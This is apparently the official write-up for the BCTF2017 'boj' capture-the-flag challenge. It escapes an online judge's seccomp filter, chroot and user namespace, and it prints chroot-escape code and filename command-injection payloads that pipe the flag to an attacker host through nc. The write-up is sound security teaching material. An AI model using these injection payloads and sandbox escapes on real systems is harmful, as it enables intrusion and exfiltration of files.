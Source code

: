 ```yaml
---
layout: post
title: BCTF2017 boj official writeup 
categories: [Sandbox, PWN, Writeup]
description: BCTF2017 boj official writeup by Atum
keywords: BCTF, PWN, Writeup
---
```



## boj official writeup 

blue-lotus onlinejudge judge system, as you know, the code you submit will be run on remote server.
[challenge environment](https://github.com/A7um/bctf2017/tree/master/boj)

### step 1 escape seccomp

1. try to connect back to your host by
	
	```
	system("echo hello|nc yourhost yourport") 
	result: failed, remote server filtered syscall execve
	socket(yourhost:yourport)->send("hello") 
	result: wow, you get hello on yourhost:yourport
	```
	
2. use opendir->readdir->socket->send to list remote dir 

	```
	scf.so
	14xxxxxxxx
	```
	
3. dump scf.so by open->read->socket->send. by reversing scf.so, you find that scf.so applied a seccomp syscall filter by hooking \_\_libc\_start\_main. 

	```
	#define VALIDATE_ARCHITECTURE \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr), \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	#define EXAMINE_SYSCALL \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)
	
	#define BLOCK_SYSCALL(name) \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_##name, 0, 1), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	/* Validate architecture. */
	VALIDATE_ARCHITECTURE,
	/* Grab the system call number. */
	EXAMINE_SYSCALL,
	BLOCK_SYSCALL(execve),
	BLOCK_SYSCALL(fork),
	BLOCK_SYSCALL(ptrace),
	BLOCK_SYSCALL(clone),
	BLOCK_SYSCALL(chroot),
	BLOCK_SYSCALL(pivot_root),
	BLOCK_SYSCALL(process_vm_readv),
	BLOCK_SYSCALL(process_vm_writev),
	ALLOW_PROCESS,
	```
	
obviously, this filter can be evaded by x32abi.

### step 2 escape chroot

1. run some api to gather infomation such as:
	
	```
	getuid,ret 0 
	getpid,ret 3
	getcwd,ret /root/
	
	system("ls everywhere")
	cannot find flag and directory is not complete. you realize that you are in a chroot environment. 
	```
	
2. escape chroot by

	```
	mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot("."); 
	```
	
3. list dir outside, you find some interesting files

	```
	/flag
	/start.h
	/home/ctf/setup.h
	/home/ctf/oj/*
	```
	
4. try to read /flag, you get permission deny. run system("ls -al /flag"), you get
	
	```
	-r--r----- 1 nobody nogroup    46 Apr 14 03:21 flag
	```
	
5. read /start.sh and /home/ctf/setup.sh, you find some binaries of boj: 
	
	```
	/usr/lib/cgi-bin/onlinejudge.cgi
	/usr/lib/cgi-bin/statequery.cgi
	/home/ctf/oj/sandbox/sandbox
	/home/ctf/oj/sandbox/scf.so
	/home/ctf/oj/sandbox/cr
	```
	
6. dump these binaries

### step 3 escape usernamespace

1. reverse sandbox, you find you are in a user namepsace. the root you own is not a real root. uid=0 inside namespace is mapped to uid=1000 outside.
2. reverse cr, you find there is a command injection bug. 

	```
	int run(char* binname){
	....
		snprintf(runcmd,310,"%s %s",sandboxpath,binpath);
	....
		if(pid==0){
	        drop(1000,1000);
	        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
	            perror("signal");
	        }
	        alarm(2);
	        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Runing","N/A");
	        fd=open(statepath,O_WRONLY|O_CREAT);
	        write(fd,state,strlen(state));
	        close(fd);
	        chdir(sandboxdirname);
	        system(runcmd);
	....
	
	```
	
3. cr is running outside the namespace, you can inject command to get which user&group the flag really belong to

	```
		touch '/home/ctf/oj/bin/ad.c;ls -al flag|nc yourhost yourport';
		-r--r----- 1 root www-data    46 Apr 14 03:21 flag
	```
	
4. www-data is uid=33 && gid=33(read /etc/passwd). by reversing cr, you find: cr set it uid&&gid to 33 before compile. and by the way, these is a command injection error in compile function.

	```
	int compile(char *srcname){
	....
	 	snprintf(compilecmd,310,"gcc -o %s %s",binpath,srcpath);
	....
		if(pid==0)
		    {
		        drop(33,33);
		        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
		            perror("signal");
		        }
		        alarm(1);
		        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Compiling","N/A");
		        fd=open(statepath,O_WRONLY|O_CREAT);
		        write(fd,state,strlen(state));
		        close(fd);
		        system(compilecmd);//file name command injuection
	....
	```
	
5. read flag by 

	```
	submiting system("touch '/home/ctf/oj/src/hahaha.c;cat flag |nc yourhost yourport;'");
	```
	
6. you get flag on your own host, done :) 

### something else

Chanllenge boj is designed to be a whitebox challenge mainly, the only blackbox step is try to connect back and get scf.so. after you get scf.so, you need to do something like: list dir->dump binaries->reversing->exploit->list dir->dump binaries->reversing->exploit...

I saw some teams tried and guessed blindly during the game. as we know, such guessing and trying is boring. I feel so sorry about that, maybe some infomation in this challenge mislead you guys to do a purely blackbox attack.
